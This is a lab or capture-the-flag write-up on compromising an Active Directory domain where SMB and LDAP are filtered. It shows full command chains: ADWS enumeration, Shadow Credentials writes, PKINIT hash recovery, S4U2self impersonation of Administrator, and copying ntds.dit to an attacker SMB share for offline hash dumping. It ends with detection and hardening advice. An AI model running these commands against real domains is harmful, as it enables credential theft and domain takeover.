


+++
title = "Millennium"
date = 2026-11-08
description = "Assumed-breach AD box with SMB and LDAP filtered. Enumeration and the whole privesc chain run over ADWS, Kerberos and WinRM instead: BloodHound via SOAPy, Shadow Credentials, S4U2self, and an NTDS.dit dump."
draft = false

[extra]
platform = "hacksmarter"
os = "windows"
difficulty = "medium"
chain = ["ADWS enumeration", "Shadow Credentials", "S4U2self impersonation", "NTDS.dit dump"]
+++

> As the operator, you are placed inside the corporate network. Traditional lateral movement paths such as SMB and LDAP are heavily restricted or monitored, forcing you to _**heavily rethink**_ conventional Active Directory enumeration and attack strategies. Kindly provided credentials:
> 
> ```text
> Username: tester
> Password: Pencil Testers
> ```

With 445/SMB and 389/636/LDAP both off the table, this lab pushes you to rethink the default opening against an AD environment.

## Recon

```bash
nmap -sCV -p- 10.1.35.184 -v -oN nmap/tcp_full.txt
```



The interesting part is what's _missing_: 445 (SMB) and 389/636 (LDAP/LDAPS) are filtered. What's left open is the Global Catalog on 3268/3269, ADWS on 9389, Kerberos on 88, and WinRM on 5985. nmap's `ssl-cert` output also flagged an ADCS install, the issuer CN was `MILLENNIUM-DC01-CA`. It doesn't end up being the path here, but it's worth noting.

Kerberos is open, so grab a TGT for `tester` and work from the ticket:

```bash
impacket-getTGT MILLENNIUM.CORP/tester:'Pencil Testers' -dc-ip 10.1.35.184
```

```text
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in tester.ccache
```

```bash
export KRB5CCNAME=tester.ccache
```

First instinct was to Kerberoast off that ticket:

```bash
impacket-GetUserSPNs -request -dc-ip 10.1.35.184 MILLENNIUM.CORP/tester -k
```

```text,hl_lines=4
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Getting machine hostname
```

and it hangs. that `Getting machine hostname` step opens an SMB session on 445 to resolve the DC name, and 445 is filtered, so it just sits there forever. even if it got past that, GetUserSPNs still needs LDAP on 389 to query for the SPNs, which is also filtered.

so 389/636 are dead. but the directory itself is still sitting right there, and 389/636 aren't the only door into it. 
This box leaves the Global Catalog open (3268/3269) and, more usefully, ADWS on 9389. ADWS is the one i care about: it hands back the same directory data on reads, and unlike the GC it also exposes a **write** endpoint, which i'll need later for the shadow credentials write. certipy will try the GC in a minute and break on exactly that read-only limitation.

So, SOAPy.

> SOAPy is intended to be used as an ADWS ingestor for Active Directory. The resultant data can then be transformed, using BOFHound, to ingest into BloodHound for post processing and visualization of attack paths.

Deep dive on ADWS enumeration from IBM X-Force: [https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws](https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws)

## Enumeration over ADWS

### Collecting with SOAPy

Make a working directory for the logfiles:

```bash
mkdir data
```

Grab PKI first. Those objects live in the Configuration partition, so the base DN has to point there, not at the domain root:

```bash
SOAPy 'MILLENNIUM.CORP/tester:Pencil Testers@10.1.35.184' \
  -dn 'CN=Public Key Services,CN=Services,CN=Configuration,DC=MILLENNIUM,DC=CORP' \
  -q '(objectClass=*)'
```

```text
v1.0.0-dev  @_logangoins  github.com/jlevere

[*] Connecting to 10.1.35.184 for resource:Enumeration
[*] Using query: (objectClass=*)
[*] Using distingushedName: CN=Public Key Services,CN=Services,CN=Configuration,DC=MILLENNIUM,DC=CORP
[*] Collecting ADWS data into .soapy_data; use --show to print BOFHound-compatible output
[*] Collecting ADWS data: 60 unique objects saved (+60 new this page; 60 received across 1 pages)
[*] Base ADWS collection complete: 60 objects; collecting ranged attribute values
[+] ADWS data collection complete: 60 objects saved to .soapy_data; run SOAPy --show
```

Save that to a logfile:

```bash
SOAPy --show > data/beacon_soap_pki.log
```

Then the domain itself (no `-dn`, so it defaults to the domain root):

```bash
SOAPy 'MILLENNIUM.CORP/tester:Pencil Testers@10.1.35.184' -q '(objectClass=*)'
```

```text
[*] Connecting to 10.1.35.184 for resource:Enumeration
[*] Using query: (objectClass=*)
[*] Using distingushedName: DC=MILLENNIUM,DC=CORP
[*] Collecting ADWS data: 247 unique objects saved (+247 new this page; 247 received across 1 pages)
[+] ADWS data collection complete: 247 objects saved to .soapy_data; run SOAPy --show
```

```bash
SOAPy --show > data/beacon_soap_domain.log
```

### Into BloodHound

With both logfiles in hand, BOFHound builds the zip to ingest:

```bash
bofhound -i data/ --zip
```

```text
[04:37:52] INFO     Parsed 338 LDAP objects
[04:37:53] INFO     Processing 278 accumulated LDAP objects
[04:37:53] INFO     Parsed 7 Users
[04:37:53] INFO     Parsed 51 Groups
[04:37:53] INFO     Parsed 1 Computers
[04:37:53] INFO     Parsed 1 Domains
[04:37:53] INFO     Parsed 1 Enterprise CAs
[04:37:53] INFO     Parsed 33 Cert Templates
[04:37:53] INFO     Processing 138 objects for ACL relationships...
```

Select the `tester` node and find the path to Domain Admins:



beautiful.

The path is short. `tester` is a plain Domain User, and Domain Users has **GenericAll** over SULLY, which is full control of that account. SULLY in turn has **GenericWrite** over the DC01$ computer object. GenericWrite is enough for a Shadow Credentials attack: write your own key into `msDS-KeyCredentialLink`, then authenticate as the account via PKINIT. And once i can auth as DC01$, i'm effectively the domain controller, it has replication rights over the whole domain.

So the plan is: take SULLY with the GenericAll, use SULLY's GenericWrite to take DC01$, then let the DC hand me the rest.

## Foothold: Shadow Credentials on SULLY

### why certipy dies here

first move was certipy to add a Key Credential to SULLY, buttt it dropped immediately:

```text,hl_lines=1
Failed to update the Key Credentials: 00002035: LdapErr ... Operation not allowed through GC port
```

certipy only speaks LDAP. with 389/636 filtered, it fell through to the Global Catalog on 3269, and the GC is **read-only**, you can't write `msDS-KeyCredentialLink` through it. so certipy can't land this write on this box at all.

the fix is to do the write over ADWS (9389), which has a Resource (write) endpoint. SOAPy's built-in `--shadow-creds` does the cert generation and the attribute write over ADWS in one shot.

### writing the key over ADWS

```bash
SOAPy 'MILLENNIUM.CORP/tester:Pencil Testers@10.1.35.184' \
  --shadow-creds add --shadow-target SULLY \
  --cert-filename sullycert.pfx --cert-password sully
```

```text,hl_lines=9
[*] Searching for target account: SULLY
[*] Connecting to 10.1.35.184 for resource:Enumeration
[+] Target found: CN=Sully,OU=ITOps,OU=Departments,DC=MILLENNIUM,DC=CORP
[*] Generating certificate...
[+] Certificate generated
[*] Generating KeyCredential...
[+] KeyCredential generated with DeviceID: 0107e1d5-4c95-afaa-0241-59b80518d5dc
[*] Updating msDS-KeyCredentialLink attribute...
[*] Connecting to 10.1.35.184 for resource:Resource
[+] Successfully updated msDS-KeyCredentialLink
[+] Saved PFX certificate: sullycert.pfx.pfx
[+] PFX password: sully
```

That `resource:Resource` line is the whole point, that's the ADWS write endpoint certipy never had access to.

### PKINIT to a TGT and NT hash

With the PFX, [PKINITtools](https://github.com/dirkjanm/PKINITtools) turns the cert into (1) a TGT and (2) the account's NT hash.

TGT first:

```bash
gettgtpkinit.py -cert-pfx sullycert.pfx.pfx -pfx-pass 'sully' MILLENNIUM.CORP/sully sully.ccache
```

```text,hl_lines=4
2026-11-08 10:54:08,228 minikerberos INFO     Loading certificate and key from file
2026-11-08 10:54:08,240 minikerberos INFO     Requesting TGT
2026-11-08 10:54:38,616 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-11-08 10:54:38,616 minikerberos INFO     20de801cebfa6efd0d7fbf8b3d55f07b4e7500a3700a0dbaa773d68cef2f093d
2026-11-08 10:54:38,619 minikerberos INFO     Saved TGT to file
```

```bash
export KRB5CCNAME=sully.ccache
klist
```

```text
Ticketzwischenspeicher: FILE:sully.ccache
Standard-Principal: sully@MILLENNIUM.CORP
Valid starting       Expires              Service principal
08.11.2026 10:54:38  08.11.2026 20:54:38  krbtgt/MILLENNIUM.CORP@MILLENNIUM.CORP
```

Feed that AS-REP key into `getnthash.py` (it does a U2U request to recover the hash):

```bash
getnthash.py -key 20de801cebfa6efd0d7fbf8b3d55f07b4e7500a3700a0dbaa773d68cef2f093d MILLENNIUM.CORP/sully
```

```text,hl_lines=4
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
7824282ac1df535de6726dac2b68556e
```

## Privesc: SULLY to DC01$

Same chain again, one object over. Now i use SULLY's NT hash to write shadow creds onto the DC01$ machine account.

```bash
SOAPy 'MILLENNIUM.CORP/sully@10.1.35.184' -nt 7824282ac1df535de6726dac2b68556e \
  --shadow-creds add --shadow-target 'DC01$' \
  --cert-filename DC01.pfx --cert-password DC01
```

```text
[*] Searching for target account: DC01$
[+] Target found: CN=DC01,OU=Domain Controllers,DC=MILLENNIUM,DC=CORP
[*] Generating certificate...
[+] KeyCredential generated with DeviceID: b900bebe-b15d-2554-505c-a5af8d64afdb
[*] Updating msDS-KeyCredentialLink attribute...
[*] Connecting to 10.1.35.184 for resource:Resource
[+] Successfully updated msDS-KeyCredentialLink
[+] Saved PFX certificate: DC01.pfx.pfx
[+] PFX password: DC01
```

TGT and NT hash for DC01$, exactly as before:

```bash
gettgtpkinit.py -cert-pfx DC01.pfx.pfx -pfx-pass 'DC01' 'MILLENNIUM.CORP/DC01$' dc01.ccache
```

```text,hl_lines=4
2026-11-08 11:12:58,645 minikerberos INFO     Loading certificate and key from file
2026-11-08 11:12:58,657 minikerberos INFO     Requesting TGT
2026-11-08 11:13:29,683 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-11-08 11:13:29,683 minikerberos INFO     72dd1c081f0bdd9529b25a36a7a3910b3f7af85d4e30384c4d2eda16459bc14f
2026-11-08 11:13:29,685 minikerberos INFO     Saved TGT to file
```

```bash
getnthash.py -key 72dd1c081f0bdd9529b25a36a7a3910b3f7af85d4e30384c4d2eda16459bc14f 'MILLENNIUM.CORP/dc01$'
```

```text,hl_lines=4
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
cb28b2c8072b3783d202acfeb38b644f
```

### why remote DCSync is dead

i own DC01$ now, so the obvious move is DCSync. but secretsdump kept dying:

```text,hl_lines=1
[-] 'NoneType' object has no attribute 'getRemoteHost'
```

Impacket's secretsdump sets up its remote operations over an SMB session on 445 before it ever touches DRSUAPI. 445 is filtered, the SMB connection comes back as `None`, and the whole thing falls over on the first attribute access. so remote DCSync is out.

### S4U2self to Administrator

but i don't need remote DCSync. i own the DC's own machine account, so instead of pulling NTDS over the wire i can just get onto the box and copy it. WinRM (5985) is still open.

But a machine account like DC01$ can't WinRM in, only a real user like Administrator can. that's where S4U2self comes in. 
S4U2self lets an account request a service ticket to **itself** on behalf of any user, no delegation config, no target password. so i ask the KDC for a ticket as Administrator to a service running as DC01$.
The `-altservice HTTP/DC01.MILLENNIUM.CORP` rewrites the service name in that ticket, which is fine because the ticket is encrypted with DC01$'s own key, the key i already hold. WinRM on DC01 validates against that same key and accepts it.

```bash
export KRB5CCNAME=dc01.ccache
```

```bash
impacket-getST -self -impersonate Administrator \
  -altservice 'HTTP/DC01.MILLENNIUM.CORP' \
  -k -no-pass -dc-ip 10.1.35.184 'MILLENNIUM.CORP/DC01$'
```

```text,hl_lines=5
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Changing service from DC01$@MILLENNIUM.CORP to HTTP/DC01.MILLENNIUM.CORP@MILLENNIUM.CORP
[*] Saving ticket in Administrator@HTTP_DC01.MILLENNIUM.CORP@MILLENNIUM.CORP.ccache
```

```bash
export KRB5CCNAME=Administrator@HTTP_DC01.MILLENNIUM.CORP@MILLENNIUM.CORP.ccache
```

### dumping NTDS.dit

evil-winrm with that ticket drops me on the DC as Administrator:

```bash
evil-winrm -i DC01.MILLENNIUM.CORP -r MILLENNIUM.CORP
```

```text
Evil-WinRM shell v4.1
Info: Establishing connection to remote endpoint
Info: Connection successful
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Confirm where the database lives:

```powershell
reg query "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" /v "DSA Database file"
```

```text
    DSA Database file    REG_SZ    C:\Windows\NTDS\ntds.dit
```

Start a local SMB server on kali to receive the files:

```bash
impacket-smbserver -smb2support -username u -password p share .
```

Mount it from the target:

```powershell
net use \\10.200.118.48\share /USER:u p
```

Use `ntdsutil` IFM to snapshot a clean copy of `ntds.dit` plus the registry hives (avoids the locked live file):

```powershell
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

```text
Snapshot set {4b2178de-3699-4490-a558-222260ae2d9a} generated successfully.
Initiating DEFRAGMENTATION mode...
     Source Database: C:\$SNAP_202611081642_VOLUMEC$\Windows\NTDS\ntds.dit
     Target Database: C:\Windows\Temp\NTDS\Active Directory\ntds.dit
Copying registry files...
Copying C:\Windows\Temp\NTDS\registry\SYSTEM
Copying C:\Windows\Temp\NTDS\registry\SECURITY
IFM media created successfully in C:\Windows\Temp\NTDS
```

IFM already drops a SYSTEM hive next to the database, but grab a fresh one anyway for the bootkey:

```powershell
reg save hklm\system system
```

Exfil both files to the SMB share:

```powershell
copy "C:\Windows\Temp\NTDS\Active Directory\ntds.dit" \\10.200.118.48\share
copy system \\10.200.118.48\share
```

And dump it offline:

```bash
impacket-secretsdump LOCAL -ntds ntds.dit -system system
```

```text,hl_lines=6 8-9
[*] Target system bootKey: 0xd47dad50d8f833994cb60e80f24afb62
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: c1f0243ae205440f233ee1f974ab5298
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4366ec0f86e29be2a4a5e87a1ba922ec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:cb28b2c8072b3783d202acfeb38b644f:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c72593d9552612093430f0b40d112bc:::
MILLENNIUM.CORP\tester:1105:aad3b435b51404eeaad3b435b51404ee:879aa860ba74fd41c5c05addd70a1a77:::
MILLENNIUM.CORP\ATHENA:1106:aad3b435b51404eeaad3b435b51404ee:ab3771ce4ec53c16e4feae2b331cb9fe:::
MILLENNIUM.CORP\Sully:1107:aad3b435b51404eeaad3b435b51404ee:7824282ac1df535de6726dac2b68556e:::
```

The DC01$ hash matches what PKINIT recovered earlier, and the krbtgt hash is the real objective, that's full-domain persistence via golden tickets. done.

## What could Millennium Corp improve?

- fix the ACLs first, they're the root cause. Domain Users → GenericAll over SULLY and SULLY → GenericWrite over DC01$ are the real bugs.
- treat ADWS like LDAP. if you filter or monitor 389/636 for security, 9389 needs the same, otherwise you've moved the front door, not locked it.
- audit `msDS-KeyCredentialLink` writes. **Event ID 5136** fires on the Key Credential modification and is the cleanest single detection for the shadow-creds step. Defender for Identity flags it too.
- watch ADWS reads with **Event ID 4662** (drop the `S-1-5-18` SYSTEM noise, AccessMask `0x10`). low-fidelity on its own, but it pairs with 5136 to catch the SOAPy collection.
- ADCS being present is what makes PKINIT and shadow creds viable at all. a domain with no DC certs can't be hit this way, though that's rare. tier and monitor the CA.


 The box is really about _why_ each tool fails, not that it failed. GetUserSPNs, certipy and secretsdump each died for a specific port reason: 445 for the hostname lookup, the read-only GC for the write, 445 again for secretsdump's setup. once you know which port a tool reaches for, you know what to swap out.


## Appendix

- [SOAPy](https://github.com/logangoins/SOAPy)
- [PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [BOFHound](https://github.com/coffeegist/bofhound)
- [Impacket](https://github.com/fortra/impacket)
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
- [Stealthy Enumeration of Active Directory Environments through ADWS (IBM X-Force)](https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws)
